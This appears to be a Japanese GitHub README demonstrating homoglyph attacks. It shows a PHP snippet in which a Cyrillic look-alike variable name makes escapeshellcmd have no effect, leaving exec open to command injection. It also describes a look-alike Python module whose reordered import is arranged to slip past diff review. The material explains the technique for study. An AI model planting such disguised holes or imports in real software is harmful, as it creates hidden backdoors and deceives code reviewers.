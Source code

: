 # homoglyph_programming
ホモグリフ攻撃の実例


## homoglyph_code
- 攻撃対象を(php_hw)[https://github.com/IldarDavletyarov/php_hw]とする。
- /7/index.phpの23行目の変数$commandのaをaのホモグリフであるа(U+0430)に置換する。
- ホモグリフに置換することで、escapeshellcmd関数の実行を回避できるために、後で実行されるexec関数においてOSコマンドインジェクションが可能となる。


```
$command = "ping {$address} -c 3  -W 1 -q ";
$commаnd = escapeshellcmd($command);
$string = exec($command, $arr);
```

## homogly_file
- 攻撃対象を(image_encryption)[https://github.com/PM25/image_encryption]とする。
- encrypt.pyというファイルで以下のように自作モジュールを使用している。

```
from mylib import utils
from mylib.crypto import MyCrypto

import argparse
import numpy as np
from PIL import Image
```

- crypto.pyの先頭のcをcのホモグリフであるс(U+0441)に変えたсrypto.py(ホモグリフファイル)を用意する．
- 内容は元になったcrypto.pyに実行したいコードを追加(ホモグリフファイルの8行目)
- encrypt.pyのimport宣言`from mylib.crypto import MyCrypto`のcをホモグリフに変更
  - 宣言順も変更することで、Githubでは新規に追加された行として検出されて、ホモグリフへの変更をばれにくくしている。
  
  
```
import argparse
import numpy as np
from PIL import Image

from mylib.сrypto import MyCrypto
from mylib import utils
from mylib import getinfo
```



